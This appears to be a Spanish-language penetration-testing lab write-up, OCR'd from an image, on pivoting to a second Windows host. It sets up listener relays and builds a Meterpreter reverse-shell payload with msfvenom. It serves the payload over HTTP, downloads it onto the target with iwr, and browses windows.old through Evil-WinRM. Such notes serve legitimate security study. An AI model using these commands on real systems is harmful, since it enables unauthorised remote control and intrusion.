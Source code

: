 #### Settings para configurar el trafico en de forma bidireccional:

1. Agregamos **listener** a la session de eric.wallows

```bash
listener_add --addr 10.10.88.141:11602 --to 192.168.45.152:9999 --tcp
```

> Ahora podemos levantar un servidor en kali en el puerto 9999 y transferir archivos


2. Agregamos otro listener para la session meterpreter

```bash
listener_add --addr 10.10.88.141:4444 --to 192.168.45.152:4444 --tcp
```

3. Generamos el payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.88.141 LPORT=4444 -f exe -o met.exe
```

4. Levantamos el servidor: `python3 -m http.server 9999`

5. Obtenemos el archivo desde **MS02**

```powershell
iwr -uri http://10.10.88.141:9999/met.exe -Outfile met.exe
```

#### Encontramos windows.old

```powershell
*Evil-WinRM* PS C:\> cd windows.old
*Evil-WinRM* PS C:\windows.old> dir
                                                                                                                                                                                                                  
                                                                                                                                                                                                                  
    Directory: C:\windows.old                                                                                                                                                                                     
                                                                                                                                                                                                                  

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/23/2022   3:01 PM                PerfLogs
d-----          4/4/2022   6:19 AM                Program Files
d-----          4/4/2022   6:20 AM                Program Files (x86)
d-----         3/23/2022   3:01 PM                Recovery
d-----         3/23/2022   3:01 PM                Users
d-----          4/4/2022   6:02 AM                Windows


*Evil-WinRM* PS C:\windows.old\Windows\System32> dir

    Directory: C:\windows.old\Windows\System32

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         12/7/2019   1:14 AM                AppLocker
d-----          4/4/2022   6:03 AM                Boot
d---s-          4/4/2022   6:03 AM                Configuration
d-----          4/4/2022   6:03 AM                DriverState
d-----          4/4/2022   6:03 AM                DriverStore
d-----          4/4/2022   6:04 AM                en-US
d---s-          4/4/2022   6:06 AM                Microsoft
-a----         12/7/2019   1:09 AM         113256 compmgmt.msc
-a----         12/7/2019   1:09 AM           9571 ResPriHMImageList
-a----         12/7/2019   1:09 AM           9196 ResPriHMImageListLowCost
-a----         12/7/2019   1:09 AM           8977 ResPriImageList
```